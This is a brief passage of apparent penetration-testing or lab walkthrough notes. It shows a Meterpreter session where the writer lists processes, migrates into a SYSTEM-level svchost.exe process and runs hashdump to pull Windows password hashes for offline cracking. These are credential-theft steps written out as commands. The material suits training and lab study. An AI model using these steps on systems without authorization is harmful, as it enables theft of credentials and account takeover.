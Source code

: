 ```bash
ps
```

- Look for a service running under User as **SYSTEM**
- 
![](attachment/f1a03dda4adca8d8a49f16de03ede7ef.png)

> Their are a few running as system here.
> > 752 620 svchost.exe is a good choice


- now enter the following. 
```bash
meterpreter > migrate 752
```

Now try ***hashdump*** again, it should now dump the hashes, save the following into a notepad for further cracking
![](attachment/ca98c49a5ba302512a7b09bc67bd6101.png)
